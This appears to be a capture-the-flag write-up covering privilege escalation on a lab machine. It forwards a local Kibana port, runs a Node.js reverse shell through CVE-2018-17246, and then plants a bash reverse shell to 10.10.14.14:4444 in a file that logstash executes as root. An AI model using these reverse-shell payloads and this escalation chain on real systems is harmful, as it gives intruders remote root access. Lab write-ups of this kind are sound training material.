

# 20 - PrivEsc

# Kibana port 5601
```bash
[security@haystack shm]$ ss -ltn
State      Recv-Q Send-Q                                                  Local Address:Port                                                                 Peer Address:Port              
LISTEN     0      128                                                                 *:80                                                                              *:*                  
LISTEN     0      128                                                                 *:9200                                                                            *:*                  
LISTEN     0      128                                                                 *:22                                                                              *:*                  
LISTEN     0      128                                                         127.0.0.1:5601                                                                            *:*                  
LISTEN     0      128                                                  ::ffff:127.0.0.1:9000                                                                           :::*                  
LISTEN     0      128                                                                :::80                                                                             :::*                  
LISTEN     0      128                                                  ::ffff:127.0.0.1:9300                                                                           :::*                  
LISTEN     0      128                                                                :::22                                                                             :::*                  
LISTEN     0      50                                                   ::ffff:127.0.0.1:9600                                                                           :::*       ```
```

It's exposed locally . With port forwarding we can access the service.

# Port Forwarding for kibana

```bash
[security@haystack /]$ 
[security@haystack /]$ 
[security@haystack /]$ 
ssh> -L 5601:127.0.0.1:5601
Forwarding port.
```


# Version


This version appears to be vulnerable.

# [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

```js
[security@haystack shm]$ cat /dev/shm/shell.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.14", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


# Shell


# logstash configuration


With the user we see that we are able to access logstash config files.

# filter, input, output.conf
```bash
bash-4.2$ cat * 
filter {
        if [type] == "execute" {             
                grok {                        
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }                        
        }                   
}                           
input {                                                                                        
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

According to filter and input configurations, Files that start with /opt/kibana/logstash_ will be read every 10 seconds. Commands that follow the format in the filter.conf will get executed as root.


# /opt/kibana/logstash_test
```bash
bash-4.2$ cat logstash_test 
Ejecutar comando : bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"

```


# root
